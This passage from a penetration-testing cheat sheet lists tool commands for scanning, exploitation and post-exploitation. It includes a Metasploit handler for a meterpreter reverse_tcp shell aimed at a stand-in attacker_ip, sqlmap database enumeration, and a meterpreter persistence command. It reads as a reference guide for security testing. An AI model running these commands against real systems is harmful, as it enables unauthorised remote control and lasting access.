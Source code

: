 ### Vulnerability Assessment
```bash
# Network vulnerability scanning
nessus  # Commercial scanner
openvas-start  # Open source scanner

# Web application security
nikto -h http://target.com
sqlmap -u "http://target.com/page?id=1" --dbs

# SSL/TLS testing
sslscan target.com
testssl.sh target.com

# Configuration assessment
lynis audit system
```

### Exploitation Tools
```bash
# Metasploit Framework
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit

# Manual exploitation
searchsploit service_name
exploit-db  # Local exploit database

# Social engineering
setoolkit  # Social Engineer Toolkit
```

### Post-Exploitation
```bash
# Privilege escalation
linux-exploit-suggester.sh
windows-exploit-suggester.py

# Persistence
meterpreter > run persistence -S -i 5 -p 443 -r target_ip

# Data exfiltration
# Use secure channels and document findings properly
```

## Network Penetration Testing

